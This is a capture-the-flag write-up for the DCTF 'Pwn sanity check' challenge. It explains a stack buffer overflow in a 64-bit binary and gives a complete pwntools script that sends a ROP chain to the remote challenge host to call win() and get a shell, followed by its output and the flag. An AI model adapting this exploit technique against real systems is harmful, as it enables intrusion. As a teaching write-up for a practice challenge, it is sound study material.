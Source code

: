 # Pwn sanity check

## Description

This should take about 1337 seconds to solve.

`nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480`

[pwn_sanity_check](pwn_sanity_check)

## Solution

### OVERVIEW

ELF 64-bit LSB executable, not stripped


### GOAL
    
The challenge is very simple it is all about using ROP technique. So basically, this means that we need to use traditional buffer overflow to change the value of the return address to mount our Ropchain, in order to call the `win` function which execute the system function to create a child process that executes `/bin/sh`.


### DETAILS

Let's begin. Taking a first look at the binary with `r2` we can clearly see the main function calls the `vuln()` function.
So now we can investigate the `vuln()` function.

The vulnerability within the program is in the `vuln` function which reads 256 characters from stdin by calling the `fgets` function.
There is no boundary checking and we can thus exploit this vulnerability to overwrite all values following the buffer on the stack.
Our mission is to call the `win()` function. It is not called in the program’s execution flow so we need to mount our Ropchain in order to carry out this task.
Since the win function takes two arguments as parameters we have to search for `pop|pop|ret` gadgets.

At first we calculated the offset to the return address using a pattern created by us (we can also use the `gdb` command `pattern`). The offset is `72 bytes`.

Now ne need to search for `pop|pop|ret` ROP-gadgets. We can use `ROPgadget` tool which lets us search our gadgets on our binary.

```console
$ ROPgadget --binary ./pwn_sanity_check --only="pop|pop|ret" 
```

Since we have a `64-bit binary` and the `win()` function takes two argument the gadgets that interests us are:

- `pop rdi; ret`
- `pop rsi ; pop r15 ; ret`

We have the offset to the return address and the gadgets, now we just have to put things together in the correct order and there we have it.

```
ROP_chain: junk + pop_rdi; ret + pop rsi ; pop r15 ; ret + win_address
```

```python
from pwn import *
import struct

param1 = p64(0xdeadbeef)
param2 = p64(0x1337c0de)
win = p64(0x0000000000400697)
pop_pop_ret = p64(0x0000000000400811) #pop rsi ; pop r15 ; ret
pop_ret = p64(0x0000000000400813) #pop rdi; ret

payload = b'A'*72;
payload += pop_ret;
payload += param1;
payload += pop_pop_ret;
payload += param2;
payload += param2;
payload += win;
#payload += p64(0x004006db);

p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io',7480)
#p = process('./pwn_sanity_check')
print(p.recvline())
p.sendline(payload)
print(p.recvline())
p.interactive()
```

```console
$ python exploit.py 
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
b'tell me a joke\n'
b'will this work?\n'
[*] Switching to interactive mode
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
```

#### **FLAG >>** `dctf{Ju5t_m0v3_0n}`
